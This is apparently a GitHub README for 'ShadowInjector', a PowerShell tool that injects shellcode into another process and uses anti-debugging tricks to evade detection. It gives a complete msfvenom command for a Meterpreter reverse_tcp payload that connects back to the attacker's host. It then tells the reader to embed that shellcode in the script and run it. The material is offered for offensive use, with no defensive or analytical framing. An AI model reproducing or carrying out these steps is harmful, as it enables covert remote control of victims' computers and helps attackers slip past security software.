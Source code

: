 # ShadowInjector
A sophisticated PowerShell script that stealthily injects Base64-encoded shellcode into the target process, featuring anti-debugging techniques to evade detection.



## Running the Script
You can create the malicious payload as follows.

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=local_ip LPORT=local_port -f csharp

![](https://github.com/okankurtuluss/ShadowInjector/blob/okankurtuluss/main/screenshots/Creating%20a%20payload.png)

Add the generated code to the "add_shell_code_here" section in the script.

To run the script, open a PowerShell window and execute the following command:

.\ShadowInjector.ps1


